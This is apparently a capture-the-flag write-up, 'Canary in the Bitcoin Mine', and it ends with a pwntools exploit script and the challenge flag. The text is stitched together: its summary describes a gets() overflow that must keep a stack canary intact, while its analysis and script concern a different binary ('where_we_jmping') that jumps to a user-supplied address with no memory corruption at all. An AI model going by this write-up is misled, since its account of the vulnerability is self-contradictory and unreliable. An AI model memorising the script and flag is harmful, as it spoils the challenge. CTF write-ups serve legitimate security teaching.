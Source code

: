 # Canary in the Bitcoin Mine - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/CanaryInTheBitcoinMine.gif)

---

## Challenge Summary

This challenge simulates a buffer overflow scenario protected by a stack canary. The program reads user input into a fixed-size buffer using the unsafe gets() function. The buffer is followed by a canary value (0x44524942, representing "BIRD"), and a boolean flag earnedFlag.

If the input overwrites the canary, the program detects the corruption and exits. To earn the flag, the attacker must carefully overflow the buffer without corrupting the canary, and set the earnedFlag variable to true. Once set, the hidden win() function is triggered to print the flag from flag.txt.

## Binary Information

```bash
$ file canary_in_the_bitcoin_mine
```

![Alt text](img/2.png)

```bash
$ pwn checksec canary_in_the_bitcoin_mine
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The main() function reads a user-supplied 64-bit memory address using scanf("%lx", &v4) and stores it in a function pointer. It then calls this pointer (v5()), effectively jumping to the user-provided address.
![Alt text](img/4.png)
Because PIE is disabled, all function addresses (including hidden ones) are fixed and visible. Using IDA Pro, we can locate the win() function easily in the .text segment. The function opens "flag.txt", reads its contents, and prints them character-by-character using putchar().
![Alt text](img/5.png)
There are no memory corruption vulnerabilities—this is a direct ret2win-style challenge, where the only requirement is to supply the correct address of win() when prompted.

The presence of stack canaries and NX is irrelevant here, as no overflow occurs. The lack of PIE is what enables the exploit.

---

## Exploit Strategy

No complex exploit is needed. This is a classic ret2win challenge.

Since PIE is disabled, the address of the win() function is static and can be retrieved using tools like IDA Pro, Ghidra, or nm. Once identified, the player simply inputs the address when prompted by the program.

The binary will then jump directly to that address and execute the win() function, which reads and prints the contents of flag.txt. No memory corruption, bruteforce, or bypass is required.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template where_we_jmping --host kubenode.mctf.io --port 30006
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'where_we_jmping')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30006)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

win_addr = b'0x4011a6'
io.recvuntil(b'Enter a memory address to jump to (as a hexadecimal, e.g., 0x401222): ')
io.sendline(win_addr)
for i in range(2) :
    io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program takes a user-supplied memory address and directly jumps to it. With PIE disabled, function addresses like win() are static and easy to find. This allows the user to redirect execution without any memory corruption, making it a simple ret2win vulnerability.

## Flag

```
MetaCTF{jmp1ng_t0_th3_g00d_l00t}
```
